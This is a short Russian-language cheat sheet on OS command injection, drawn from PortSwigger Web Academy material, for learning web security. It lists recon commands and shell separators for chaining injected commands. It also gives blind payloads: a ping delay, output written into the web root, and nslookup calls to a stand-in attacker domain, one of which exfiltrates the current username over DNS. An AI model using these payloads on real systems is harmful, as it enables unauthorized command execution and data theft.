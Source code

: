 # OS Command Injection

По [материалам](https://portswigger.net/web-security/os-command-injection) PortSwigger Web Academy

## Useful commands & payloads

### Typical commands

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |

### Спец символы

```
&
&&
|
||

;
Newline (0x0a or \n)

`injected command`
$(injected command)
```

### Blind payloads

Используя задержки по времени

```
& ping -c 10 127.0.0.1 &
```

Перенаправление вывода в директорию веб-приложения

```
& whoami > /var/www/static/whoami.txt &
Check: https://vulnerable-website.com/whoami.txt
```

Через out-of-band механизм (OAST, nslookup)

```
& nslookup kgji2ohoyw.web-attacker.com &

With exfiltration (data output):
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
